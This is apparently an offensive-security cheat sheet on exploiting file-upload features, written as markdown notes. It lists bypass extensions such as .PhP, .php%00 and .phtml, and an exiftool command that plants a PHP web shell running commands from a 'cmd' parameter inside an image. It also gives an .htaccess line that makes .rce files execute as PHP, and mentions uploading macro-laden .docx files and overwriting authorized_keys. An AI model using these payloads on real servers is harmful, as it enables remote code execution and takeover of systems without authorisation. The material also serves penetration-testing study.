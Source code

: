 - Can be leveraged to upload executable files (e.g., PHP).
- Can be leveraged to upload and replace sensitive files, such as `authorized_keys`. We first go with root user (as don't have idea of other users)
- Can be combined with attacks like **XXE** or **XSS** by uploading malicious SVG files (e.g., embedding XXE in an avatar upload to read files or execute code).
- We can try to upload a CV in [**.docx**](https://docs.microsoft.com/en-us/openspecs/office_standards/ms-docx/) format with malicious [_macros_](https://support.microsoft.com/en-us/office/macros-in-office-files-12b036fd-d140-4e74-b45e-16fed1a7e5c6) integrated

#### Bypass Filters
```shell
#Case change
.PhP
#other types

[ .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .phar and .inc ]

#end with null characters
.php%00

# [All the file upload extension list](https://jorgectf.gitbook.io/awae-oswe-preparation-resources/by-vulnerability/file-upload-restrictions-bypass/file-extension-filters-bypass) 

```
- Change mime type
- Add image headers
- Add payload in exiftool comment and name file as file.php.png
- ExifTool
```shell
	exiftool -Comment='<?php system($_GET["cmd"]); ?>' cat.php.jpeg
strings cat.php.jpeg | grep system
file cat.php.jpeg

# try without .php
# call like the below
cat.php.jpeg?cmd=whoami
``` 
  `
#### Upload Configuration Files

If you are trying to upload files to a :

- PHP server, take a look at the [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) trick to execute code.
- ASP server, take a look at the [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) trick to execute code.
- uWSGI server, take a look at the [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini) trick to execute code.
``` title:.htaccess
AddType application/x-httpd-php .rce
```

